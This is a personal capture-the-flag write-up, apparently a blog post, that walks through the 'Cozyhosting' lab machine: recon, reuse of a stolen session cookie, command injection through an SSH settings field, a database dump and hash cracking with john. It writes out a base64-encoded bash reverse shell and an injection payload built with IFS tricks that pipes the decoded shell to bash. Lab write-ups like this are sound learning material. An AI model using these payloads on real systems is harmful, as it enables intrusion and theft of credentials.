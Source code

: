 ```yaml
---
layout: post
title: "Cozyhosting"
date: 2023-11-05
categories: ["Hands-on", "TryHackMe"]
tags: ""
---
```


# Cozyhosting
> This is a machine that allows you to practise web app hacking and privilege escalation 

Used: **nmap**, **gobuster**, **postgres**, **sql**, **john**,  

## Introduction
This machine did step me out of my comfort zone and knowledge, it started off as easy but slowly exposed me to new techniques and topics in way that huumbled me and open my eyes that it will only get harder. That is the way to learn to push and push even when you dont know as long as you are pushing and learning it will get easier in time. This

Due to this machine being hard since I didnt have the knowledge, I had to use different walkrhoughs and it felt satisfying to finish it. 

## Scanning and Recon

### Nmap
I started off scanning the target using NMAP and found 8 open ports including HTTP, SSH. 

### Gobuster
I wasnt able to access the website until i added it to the /etc/hosts file. After sucessfully editting the file, I was able to access the website and find the login screen. 

After failing to try to use default credentials I went to gobuster to enumerate any hidden paths. Once thing that stood out while scanning was the session page! When accessing the session page I can see a user Kanderson with his session, and since his the only user that is authorized stealing his session will give me access to whatever there is!


## Initial access

### Imporsonating Kanderson - Cookie stealing
I had several issues when trying to access the cookie, maybe i shouldve understood cookies and researched more. At first i accessed the developer tool in my browser and changed the name to 'Kanderson' and the value was the session key. That did not work because later while reading the walkthroughs, I found out that the name is not supposed to be Kanderson but was supposed to be JESSIONID.


### SSH
at the end of the page there is a connection setting that can add my hostname and username to the hosts i the ssh authorised_key file! I understood that this can give me the shell access but i did not know how to exploit it.

With the walkthrough as a guide, i opened burpsuit and started looking at what happens when i pass in the inputs. Nothing intresting happens, but when i leave the username empty and send it out  i get an error SSH usage!

#### Payload
https://medium.com/@depradip_8731/cozyhosting-hackthebox-writeup-531082c06bb3

The walkthrough explains how to create the payload needed to gain access to the SSH. First I needed to create the base 64 of a bash reverse shell 

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

After I need to add it to the payload to be sent as the username!

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

But before sending i needed to encode it, i had few errors without doing this step. I started the listener and then sent it out.

## Escalating 
Once I gained access to the maichine i found a jar file, i extracted it and downloaded it into my machine to see. While checking each file i found the application.properties that had the username and the password for the database

### Database
I went back to the target ssh session, and ran the below bash code to access the database. Once i was connected and displayed the tables within the data i notice the users table.. thats interesting.


```bash
psql -h 127.0.0.1 -U postgres
```

Connecting to cozyhosting database
```bash
\c cozyhosting
```

Displaying the list of relations within the database
```bash
\d
```

when selecting all from the user table it provided me with both the user kanderson and admin hashed password! All i had to do is crack it.. that should be easy

```bash
select * from users;
```

### Hash cracking 
I copied the admin hash and used John to crack it with the rockyou as the wordlist. After few seconds the password was prompted into my screen

```bash
john hash.txt --wordlist=wordlist
```

### SSH
I closed the remote session for cozyhosting and attempted to log in as the admin Josh. With that i had access to both the user.txt and the root.txt for the flag needed to complete the CTF 



## Walkthrough references: 
- https://medium.com/@cybrpunk_panda/cozyhosting-writeup-hack-the-box-40d37b3075cd
- https://www.linkedin.com/pulse/cozyhosting-htb-walkthrough-jeffrey-huffman/
- https://medium.com/@depradip_8731/cozyhosting-hackthebox-writeup-531082c06bb3
https://gtfobins.github.io/gtfobins/ssh/#sudo

